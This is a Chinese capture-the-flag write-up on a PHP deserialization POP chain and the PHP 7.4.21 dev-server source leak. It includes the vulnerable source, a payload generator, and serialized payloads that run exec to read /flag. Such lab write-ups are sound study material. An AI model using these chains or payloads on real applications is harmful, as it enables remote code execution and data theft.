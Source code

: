 # easyphp题解(没时间做了)
*注：比赛时没有时间做了，后续拿来再复习一下php反序列化*
## 考点
- php版本源码泄露
- php反序列化

## 分析
打开题目，进去后直接就是404，那么就扫目录看看，扫到有`flag.php`，访问之后什么也没有，但是php版本是7.4.21(≤7.4.21存在源码泄露)，存在源码泄露风险(参考下面的【题外话】)：
![alt text](images/image6.png)

源码如下：
```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class a{
    public $OAO;
    public $QAQ;
	public $OVO;
    public function __toString(){
		if(!preg_match('/hello/', OVO)){
			if ($this->OVO === "hello") {
				return $this->OAO->QAQ;
			}	
		}
    }
	public function __invoke(){
		return $this->OVO;
	}
}

class b{
    public $pap;
	public $vqv;
    public function __get($key){
        $functioin = $this->pap;
        return $functioin();
    }
	public function __toString(){
		return $this->vqv;
	}
}
class c{
    public $OOO;
    public function __invoke(){
		@$_ = $this->OOO;
		$___ = $_GET;
		var_dump($___);
		if (isset($___['h_in.t'])) {
			unset($___['h_in.t']);
		}
		var_dump($___);
		echo @call_user_func($_, ...$___); 
    }
}
class d{
    public $UUU;
    public $uuu;
    public function __wakeup(){
		echo $this->UUU;
    }
	public function __destruct(){
		$this->UUU;
}
}
if(isset($_GET['h_in.t'])){
	unserialize($_GET['h_in.t']);
}
?> 
```

溜一眼，不出意外的话，就是反序列化了，接下来就开始分析(纯复习了)：
- 先找链尾，直接锁定到`@call_user_func`，即`c::__invoke()`，`__invoke`的触发条件为对象被当成函数调用：
![alt text](images/image7.png)
- 因此找到`b::__get()`，其触发条件为访问不存在的属性：
![alt text](images/image8.png)
- 进一步找到`a::__toString()`，其触发条件为对象被当作字符串使用：
![alt text](images/image9.png)
- 最后找到`d::__wakeup()`，其触发条件为反序列化一个对象时触发：
![alt text](images/image10.png)

即pop链为`d::__wakeup()-->a::__toString()->b::__get()->c::__invoke()`。


## 题解
接下来就是设置一些值绕过一些条件判断，并构造最终的payload，emmm，好像没有什么需要绕过的，payload如下：
```php
<?php

class a{
    public $OAO;
    public $QAQ;
	public $OVO;
    public function __toString(){
		if(!preg_match('/hello/', OVO)){
			if ($this->OVO === "hello") {
				return $this->OAO->QAQ;
			}	
		}
    }
	public function __invoke(){
		return $this->OVO;
	}
}

class b{
    public $pap;
	public $vqv;
    public function __get($key){
        $functioin = $this->pap;
        return $functioin();
    }
	public function __toString(){
		return $this->vqv;
	}
}
class c{
    public $OOO;
    
    // pop链尾
    public function __invoke(){
		@$_ = $this->OOO;
		$___ = $_GET;
		var_dump($___);
		if (isset($___['h_in.t'])) {
			unset($___['h_in.t']);
		}
		var_dump($___);
		echo @call_user_func($_, ...$___); 
    }
}
class d{
    public $UUU;
    public $uuu;
    public function __wakeup(){
		echo $this->UUU;
    }
	public function __destruct(){
		$this->UUU;
    }
}

$a = new a;
$b = new b;
$c = new c;
$d = new d;
$d->UUU=$a;
$a->OAO=$b;
$a->OVO="hello";
$b->pap=$c;
$c->OOO="phpinfo";
echo serialize($d);
?>
# O:1:"d":2:{s:3:"UUU";O:1:"a":3:{s:3:"OAO";O:1:"b":2:{s:3:"pap";O:1:"c":1:{s:3:"OOO";s:7:"phpinfo";}s:3:"vqv";N;}s:3:"QAQ";N;s:3:"OVO";s:5:"hello";}s:3:"uuu";N;}
```
自己搭的环境复现下，先执行phpinfo()来看下被ban的方法有哪些：
![](images/image11.png)

然后发现exec可以利用，然后利用如下payload获取flag：
```
O:1:"d":2:{s:3:"UUU";O:1:"a":3:{s:3:"OAO";O:1:"b":2:{s:3:"pap";O:1:"c":1:{s:3:"OOO";s:4:"exec";}s:3:"vqv";N;}s:3:"QAQ";N;s:3:"OVO";s:5:"hello";}s:3:"uuu";N;}&1=phpinfo();&1=cat /flag
```
![alt text](images/image12.png)

<mark>为什么get参数时h_in.t，传入的确是h[in.t呢？：</mark>
> $\_GET会将h\_in.t转换为h_in_t，当PHP版本小于8时，如果参数中出现中括号[，中括号会被转换成下划线_，同时**会出现转换错误导致接下来如果该参数名中还有非法字符并不会将其继续转换成下划线_，也就是说如果中括号[出现在前面，那么中括号[被转换成下划线_，但是因为出错导致接下来的非法字符并不会被转换成下划线_**。所以将参数名改为 h[in.t

## 题外话-php7.4.21源码泄露复现
docker拉取一个`php-7.4.21`的镜像：
![alt text](images/image1.png)

然后进入容器内部shell：
![alt text](images/image2.png)

然后写一个php文件并开启development server：
![alt text](images/image3.png)

访问，直接返回404：
![alt text](images/image4.png)

然后利用Burp抓包(关闭repeater的update content-length功能)，内容如下，可以获得泄露源码：
![alt text](images/image5.png)